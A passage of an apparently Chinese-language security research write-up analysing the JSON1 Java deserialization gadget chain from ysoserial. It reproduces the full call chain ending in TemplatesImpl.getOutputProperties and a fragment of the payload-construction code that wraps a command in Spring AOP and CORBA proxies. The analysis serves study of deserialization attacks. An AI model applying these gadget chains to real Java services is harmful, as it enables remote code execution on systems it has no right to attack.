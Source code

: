 不过此处获取的顺序会有一定的不稳定性，有时 `outputProperties` 会在 `stylesheetDOM` 之前，这个时候反序列化攻击可以成功。

## 关于 JSON1 链

其实利用 JSON 序列化库触发所有 `getter` 方法并不鲜见。ysoserial【2】中的 JSON1 链就利用了 `net.sf.json-lib` 这个 JSON 序列化库来触发 `getOutputProperties` 方法。

我们截取它的调用链研究一下：

```bash
/**
 *
 * A bit more convoluted example
 *
 * com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties()
 * java.lang.reflect.Method.invoke(Object, Object...)
 * org.springframework.aop.support.AopUtils.invokeJoinpointUsingReflection(Object, Method, Object[])
 * org.springframework.aop.framework.JdkDynamicAopProxy.invoke(Object, Method, Object[])
 * $Proxy0.getOutputProperties()
 * java.lang.reflect.Method.invoke(Object, Object...)
 * org.apache.commons.beanutils.PropertyUtilsBean.invokeMethod(Method, Object, Object[])
 * org.apache.commons.beanutils.PropertyUtilsBean.getSimpleProperty(Object, String)
 * org.apache.commons.beanutils.PropertyUtilsBean.getNestedProperty(Object, String)
 * org.apache.commons.beanutils.PropertyUtilsBean.getProperty(Object, String)
 * org.apache.commons.beanutils.PropertyUtils.getProperty(Object, String)
 * net.sf.json.JSONObject.defaultBeanProcessing(Object, JsonConfig)
 * net.sf.json.JSONObject._fromBean(Object, JsonConfig)
 * net.sf.json.JSONObject.fromObject(Object, JsonConfig)
 * net.sf.json.JSONObject(AbstractJSON)._processValue(Object, JsonConfig)
 * net.sf.json.JSONObject._processValue(Object, JsonConfig)
 * net.sf.json.JSONObject.processValue(Object, JsonConfig)
 * net.sf.json.JSONObject.containsValue(Object, JsonConfig)
 * net.sf.json.JSONObject.containsValue(Object)
 * javax.management.openmbean.TabularDataSupport.containsValue(CompositeData)
 * javax.management.openmbean.TabularDataSupport.equals(Object)
 * java.util.HashMap<K,V>.putVal(int, K, V, boolean, boolean)
 * java.util.HashMap<K,V>.readObject(ObjectInputStream)
 *
 * @author mbechler
 *
 */
```

从下往上看，可以看到最先有一段调用，从 `java.util.HashMap#readObject` 触发 `net.sf.json.JSONObject#containsValue`. 然后 `net.sf.json.JSONObject#defaultBeanProcessing` 尝试触发它包裹的对象的所有 `getter` 方法。这里用到了 commons-beanutils 这个库获取 `getter` 方法，然后反射触发。

按照 JACKSON 链的逻辑，这里可以，直接包裹一个 `TemplatesImpl` 类型的对象，然后触发其 `getOutputProperties` 方法。

但是这里 JSON1 链没有让 `JSONObject` 直接包裹一个 `TemplatesImpl` 类型的对象，而是包裹了一个代理类的对象 `cdsProxy`

```bash
Object payload = Gadgets.createTemplatesImpl(command);
                Class[] ifaces = new Class[]{Templates.class};
                // we need to make payload implement composite data
        // it's very likely that there are other proxy impls that could be used
        AdvisedSupport as = new AdvisedSupport();
        as.setTarget(payload);
        InvocationHandler delegateInvocationHandler = (InvocationHandler) Reflections.newInstance("org.springframework.aop.framework.JdkDynamicAopProxy", as);
        InvocationHandler cdsInvocationHandler = Gadgets.createMemoizedInvocationHandler(Gadgets.createMap("getCompositeType", rt));
        InvocationHandler invocationHandler = (InvocationHandler) Reflections.newInstance("com.sun.corba.se.spi.orbutil.proxy.CompositeInvocationHandlerImpl");
        ((Map) Reflections.getFieldValue(invocationHandler, "classToInvocationHandler")).put(CompositeData.class, cdsInvocationHandler);
```